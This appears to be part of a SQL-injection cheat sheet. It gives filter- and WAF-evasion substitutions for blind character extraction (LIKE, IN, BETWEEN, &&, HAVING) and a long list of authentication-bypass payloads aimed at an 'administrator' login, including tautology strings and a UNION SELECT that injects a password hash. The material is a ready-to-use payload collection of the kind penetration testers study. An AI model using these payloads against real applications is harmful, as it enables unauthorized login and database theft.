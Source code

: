#### BYPASSING-SQL-SINTAX
```sql
-- BYPASSIN  EQUALS --

-- MySQL/SQL Server e.g -> SUBSTRING(username,1,1)='a' 
SUBSTRING(username,1,1)LIKE 'a' --> burp intruder
SUBSTRING(username,1,1)IN 'a' 'b' 'c' ...
SUBSTRING(VERSION(),1,1) BETWEEN 1 AND 3 -- 2
-- ORACLE e.g -> SUBSTR(username, 1, 1) = 'a'
SUBSTR(username, 1, 1) LIKE 'a' --> burp intruder
SUBSTR(username, 1, 1) IN ('a', 'b', 'c', ...)
SUBSTR(VERSION(), 1, 1) BETWEEN '1' AND '3' -- 2 

-- BYPASS KEYWORDS
AND   --> and , aNd , && 
OR    --> || 
=     --> LIKE , REGEXP , BETWEEN
>     --> NOT BETWEEN O AND X
WHERE --> HAVING

```

#### WAF-AUTH-BYPASS
```sql
administrator' --
administrator' #
administrator'/*
administrator' or '1'='1
administrator' or '1'='1'--
administrator' or '1'='1'#
administrator' or '1'='1'/*
administrator'or 1=1 or ''='
administrator' or 1=1
administrator' or 1=1--
administrator' or 1=1#
administrator' or 1=1/*
administrator') or ('1'='1
administrator') or ('1'='1'--
administrator') or ('1'='1'#
administrator') or ('1'='1'/*
administrator') or '1'='1
administrator') or '1'='1'--
administrator') or '1'='1'#
administrator') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'administrator', '81dc9bdb52d04dc20036dbd8313ed055
administrator" --
administrator" #
administrator"/*
administrator" or "1"="1
administrator" or "1"="1"--
administrator" or "1"="1"#
administrator" or "1"="1"/*
administrator"or 1=1 or ""="
administrator" or 1=1
administrator" or 1=1--
administrator" or 1=1#
administrator" or 1=1/*
administrator") or ("1"="1
administrator") or ("1"="1"--
administrator") or ("1"="1"#
administrator") or ("1"="1"/*
administrator") or "1"="1
administrator") or "1"="1"--
administrator") or "1"="1"#
```
